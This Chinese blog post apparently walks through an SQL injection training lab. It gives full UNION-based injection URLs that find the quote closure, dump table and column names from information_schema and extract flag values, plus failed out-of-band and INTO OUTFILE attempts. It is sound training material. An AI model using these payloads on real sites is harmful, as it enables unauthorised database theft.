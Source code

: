 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入
categories: [安全]
description: sql 注入靶场练习 单引号报错注入
keywords: sql注入, oob带外, dnslog
---
```


# 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入

+ 课程目标 `https://hack.zkaq.cn/battle/target?id=695d4b6fe02d0bf3`

> **注意**, **误区** : 一定 **不要认为** 所有错误都会被反映到页面上， 程序会处理错误逻辑，并隐藏。


## 0x01. 判断注入点

### 引号探测

使用 `http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=1 --+`。 可以正常显示结果， 但 `1=2 --+` 不行。 

> 判断为 **单引号** 闭合。


### 错误姿势


```sql
-- 1. 语句错误, 测试了 `select 1 到 7`。 都没发现可以显示的注入点。 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and select 1,2,3,4,5,6,7 --+ 
```
> 1. 首先`语句错误` ， 这里应该使用 **联合查询（UNION）** 确认注入点，而非 **AND**

```sql
-- 2. 联合查询判断条件错误, 显示结果不提示注入点
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union select 1,2,3 --+ 1
```
> 2. 使用联合查询后使用 `id=1'` 并不能确认 `select 1,2,3` 的注入点， 因为 **UNION 求并集** 依旧会显示正常查询结果。 如图 *select-union-condition-miss.png* 所示

![select-union-condition-miss.png](/images/post/2020/12/09/select-union-condition-miss.png)


### 正确姿势

```sql
-- 1. 正确判断, --+ 注释
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 --+ 1
```

```sql
-- 2. 正确判断, # 号注释。 urlcode %23  = #
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 %23+ 1
```

1. `id=1' and 1=2` : 闭合 **左单引号** ， 错误截断 。
2. `1=2 union select 1,2,3` : 尝试注入点
3. `--+ 1` 或 `%23+ 1` : 注释右单引号 。 

> **Notice** : `+` 将在 URL Code 中转为为 **空格 ` `**


## 0x02. 数据查找

### 0x02.1. 查询库名, 表名

由于有 **2 和 3** 两个可注入点， 因此在构造语句的时候，使用了 **2条自查询**

1. `select database()` : 查询当前库名
2. `select group_concat(table_name) from information_schema.tables where table_schema=database())` : 通过 `information_schema` 库查询当前所有表名。

```sql
-- dump dbname and tablename 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1, (select database()), (select group_concat(table_name) from information_schema.tables where table_schema=database()) --+ 1


-- dbname: error
-- tablenames: error_flag,user
```

### 0x02.2. 查询列名

```sql
--- dump column name
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='error_flag' --+ 1


-- columns: Id,flag
```

### 0x02.3. 查询 flag 所有字段值

```sql
--- dump flag values
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

-- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

### 0x03 提交

五个过关 Flag 中 应该只有一个是正确的， 所以需要轮训尝试。

> 第一关的时候我以为 5 个都可以用。 结果随机选择的时候，发现有错误， 还以为程序异常呢。



## 0x04 尝试方法

**1. 使用 OOB (out of band) 带外测试**

最开始在遇到 **注入显示点** 问题的时候， 本准备放弃查找显示点。 替换使用 **`OOB` 带外测试 - Dnslog 测试** 直接一把梭把所有数据全部提交到 `dnslog.cn` 上 。

然而意想不到的是， `dnslog 测试` 不可用， `load_file` 构造的请求无法成功。

**2. OOB 文件 测试法**

在查找 `load_file()` 函数使用过程中， 找到了以下 paper 。 使用 `INTO OUTFILE` 将结果存储到 目标目录。

> https://www.exploit-db.com/papers/14635

+ `select database`

```sql
--- select database
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union all select database() INTO OUTFILE '/tmp/1.txt' --+ 1

```

+ `select load_file`

```sql
--- select load_file
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union all select 1,2,(select load_file('/tmp/1.txt' )) --+ 1
```

然而失败了。 T_T 。

